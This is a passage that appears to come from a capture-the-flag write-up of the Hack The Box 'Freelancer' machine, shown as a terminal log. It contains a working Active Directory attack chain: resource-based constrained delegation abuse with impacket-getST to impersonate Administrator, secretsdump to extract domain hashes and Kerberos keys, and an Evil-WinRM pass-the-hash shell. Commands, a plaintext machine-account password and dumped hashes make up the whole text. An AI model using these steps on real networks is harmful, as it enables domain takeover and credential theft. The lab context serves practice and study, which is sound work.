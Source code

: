```bash
[*] test02$ can now impersonate users on DC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     ATTACKERSYSTEM$   (S-1-5-21-3542429192-2036945976-3483670807-11601)
[*]     test02$      (S-1-5-21-3542429192-2036945976-3483670807-11602)

└─$ impacket-getST -spn cifs/dc.freelancer.htb -impersonate Administrator -dc-ip 10.10.11.5 'freelancer.htb/test02$:Hye7CZPcPzoHsIr6jtiWnR2eKdrX0lFb'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)

└─$ faketime -f +5h impacket-getST -spn cifs/dc.freelancer.htb -impersonate Administrator -dc-ip 10.10.11.5 'freelancer.htb/test02$:Hye7CZPcPzoHsIr6jtiWnR2eKdrX0lFb'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_dc.freelancer.htb@FREELANCER.HTB.ccache

└─$ export KRB5CCNAME=Administrator@cifs_dc.freelancer.htb@FREELANCER.HTB.ccache

└─$ impacket-psexec -k -no-pass freelancer.htb/administrator@dc.freelancer.htb # Didn't work

└─$ faketime -f +5h impacket-secretsdump -k -no-pass freelancer.htb/Administrator@dc.freelancer.htb -just-dc-user Administrator
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0039318f1e8274633445bce32ad1a290:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:1743fa93ed1f2f505d3c7cd6ef1e8c40589f107070065e98efc89ea907d81601
Administrator:aes128-cts-hmac-sha1-96:bd23b1924f1fd0bdc60abf464114a867
Administrator:des-cbc-md5:0d400dfe572a3262
[*] Cleaning up...

└─$ evil-winrm -i 10.10.11.5 -u 'Administrator' -H 0039318f1e8274633445bce32ad1a290

Evil-WinRM shell v3.5

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
freelancer\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> cat ../Desktop/root.txt
50e6b10c0abbad922aaba002e2a8366f
```

---